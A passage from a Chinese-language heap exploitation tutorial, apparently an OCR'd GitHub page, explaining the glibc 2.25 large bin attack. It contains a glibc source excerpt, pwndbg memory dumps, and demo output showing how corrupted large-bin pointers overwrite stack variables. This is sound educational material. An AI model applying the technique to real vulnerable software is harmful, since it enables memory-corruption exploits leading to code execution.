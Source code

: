 ``` c++
              else
              {
                  victim->fd_nextsize = fwd;
                  victim->bk_nextsize = fwd->bk_nextsize;
                  fwd->bk_nextsize = victim;
                  victim->bk_nextsize->fd_nextsize = victim;
              }
              bck = fwd->bk;
```

其中 fwd 是 fake p2，victim 是 p3，bck 会被赋值为 `&stack_var1 - 2`。

在 p3 被放回 large bin 并排序的过程中，我们让位于栈上的两个变量也被修改成了 victim。对应的语句分别是 `bck->fd = victim;` 和 `ictim->bk_nextsize->fd_nextsize = victim;`。

```
pwndbg> x/10xg p3-2
0x6037a0:	0x0000000000000000	0x0000000000000411
0x6037b0:	0x0000000000603360	0x00007fffffffdc60
0x6037c0:	0x0000000000603360	0x00007fffffffdc58
0x6037d0:	0x0000000000000000	0x0000000000000000
0x6037e0:	0x0000000000000000	0x0000000000000000
pwndbg> p/x stack_var1
$11 = 0x6037a0
pwndbg> p/x stack_var2
$12 = 0x6037a0
```

### 输出

```
$ ./glibc_2.25/large_bin_attack
This file demonstrates large bin attack by writing a large unsigned long value into stack
In practice, large bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the targets we want to rewrite on stack:
stack_var1 (0x7fffffffdcc0): 0
stack_var2 (0x7fffffffdcc8): 0

Now, we allocate the first large chunk on the heap at: 0x603000
And allocate another fastbin chunk in order to avoid consolidating the next large chunk with the first large chunk during the free()

Then, we allocate the second large chunk on the heap at: 0x603360
And allocate another fastbin chunk in order to avoid consolidating the next large chunk with the second large chunk during the free()

Finally, we allocate the third large chunk on the heap at: 0x6037a0
And allocate another fastbin chunk in order to avoid consolidating the top chunk with the third large chunk during the free()

We free the first and second large chunks now and they will be inserted in the unsorted bin: [ 0x603360 <--> 0x603000 ]

Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation, and reinsert the remaining of the freed first large chunk into the unsorted bin: [ 0x6030a0 ]

Now, we free the third large chunk and it will be inserted in the unsorted bin: [ 0x6037a0 <--> 0x6030a0 ]

Now emulating a vulnerability that can overwrite the freed second large chunk's "size" as well as its "bk" and "bk_nextsize" pointers
```
